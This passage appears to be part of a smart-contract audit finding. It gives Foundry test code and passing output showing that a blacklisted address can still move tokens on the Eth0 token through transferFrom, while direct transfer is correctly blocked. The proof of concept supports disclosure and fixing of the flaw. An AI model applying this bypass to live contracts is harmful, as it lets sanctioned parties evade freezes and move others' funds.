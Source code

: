 These tests were executed using the following command:

```bash
forge test --match-path test/token/Eth0.t.sol --match-test 'testBlacklist(BypassViaTransferFrom|DirectTransferCorrectlyBlocked)'
```

Both tests passed successfully, confirming the existence of the bypass and the correctness of the blacklist restriction in direct transfers. The output was:

```bash
Ran 2 tests for test/token/Eth0.t.sol:Eth0Test
[PASS] testBlacklistBypassViaTransferFrom() (gas: 263114)
[PASS] testBlacklistDirectTransferCorrectlyBlocked() (gas: 190792)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.53s (4.19ms CPU time)
```

This confirms that the current implementation fails to enforce blacklist restrictions consistently, leaving the `transferFrom` path vulnerable.

```solidity

  function testBlacklistBypassViaTransferFrom() public {
    // Setup: Mint tokens to Alice and establish approval relationship
    allowlistAliceAndMintTokens(); // Alice receives 2e18 tokens

    // Alice approves Bob
    vm.prank(alice);
    eth0Token.approve(bob, 1000e18);

    // Verify initial state
    assertEq(eth0Token.balanceOf(alice), 2e18);
    assertEq(eth0Token.allowance(alice, bob), 1000e18);
    assertFalse(eth0Token.isBlacklisted(bob));

    // Admin blacklists Bob
    vm.prank(blacklistOperator);
    eth0Token.blacklist(bob);
    assertTrue(eth0Token.isBlacklisted(bob));

    // Key test: Blacklisted user Bob can still use transferFrom
    vm.prank(bob);
    eth0Token.transferFrom(alice, carol, 1e18); // This should fail but succeeds!

    // Verify attack success
    assertEq(eth0Token.balanceOf(alice), 1e18); // Alice lost 1e18
    assertEq(eth0Token.balanceOf(carol), 1e18); // Carol received 1e18
    assertEq(eth0Token.allowance(alice, bob), 999e18); // Allowance decreased correctly

    // This proves the blacklist restriction was bypassed
  }

  function testBlacklistDirectTransferCorrectlyBlocked() public {
    // Setup: Mint some tokens to Bob
    vm.prank(address(registryContract.getContract(CONTRACT_DAO_COLLATERAL)));
    eth0Token.mint(bob, 100e18);

    // Add Bob to blacklist
    vm.prank(blacklistOperator);
    eth0Token.blacklist(bob);

    // Verify direct transfer is correctly blocked
    vm.prank(bob);
    vm.expectRevert(abi.encodeWithSelector(Blacklisted.selector));
    eth0Token.transfer(carol, 50e18); // Correctly fails
  }

```